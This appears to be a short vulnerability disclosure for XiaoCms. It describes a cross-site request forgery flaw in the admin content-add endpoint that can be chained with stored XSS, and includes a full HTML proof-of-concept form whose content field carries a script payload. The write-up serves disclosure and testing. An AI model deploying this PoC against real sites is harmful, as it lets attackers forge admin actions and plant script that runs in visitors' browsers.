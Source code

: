 # CSRF
------------------
CSRF can be used with XSS
Use the POC to create a news with XSS payload.

```
<html>
  <body>
    <form action="http://10.33.62.73:8080/admin/index.php?c=content&a=add&catid=3" method="POST">
      <input type="hidden" name="data[catid]" value="3" />
      <input type="hidden" name="data[title]" value="test" />
      <input type="hidden" name="data[thumb]" value="" />
      <input type="hidden" name="data[keywords]" value="" />
      <input type="hidden" name="data[description]" value="" />
      <input type="hidden" name="data[content]" value="<script>alert(1)</script>" />
      <input type="hidden" name="data[xiao_auto_description]" value="1" />
      <input type="hidden" name="data[xiao_auto_thumb]" value="1" />
      <input type="hidden" name="data[xiao_download_image]" value="1" />
      <input type="hidden" name="data[time]" value="2018-11-02+15:05:43" />
      <input type="hidden" name="data[hits]" value="" />
      <input type="hidden" name="submit" value="提交" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

![](https://github.com/AvaterXXX/XiaoCms/blob/master/image/CSRF_1.png)
